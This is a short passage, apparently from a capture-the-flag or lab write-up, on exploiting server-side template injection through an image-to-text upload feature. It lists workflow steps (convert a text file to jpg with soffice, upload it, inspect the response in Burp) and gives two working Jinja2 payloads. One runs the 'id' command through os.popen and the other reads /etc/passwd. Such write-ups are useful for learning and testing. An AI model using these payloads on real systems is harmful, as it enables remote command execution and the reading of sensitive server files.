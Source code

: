 - Try out some different payloads with the image to text functionality and see it's vulnerable to ssti
```bash
# GENERAL WORKFLOW:
# create text file with ssti payload
# use following command to convert it to a jpg
soffice --convert-to jpg "read_file.txt"
# upload the file using the subdomains functionality
# either capture response using burp or view response in burp's proxy history tab 
```
```python
# code_exec payload:
{{ namespace.__init__.__globals__.os.popen('id').read() }}
# read_file payload:
{{ get_flashed_messages.__globals__.__builtins__.open('/etc/passwd').read() }}
```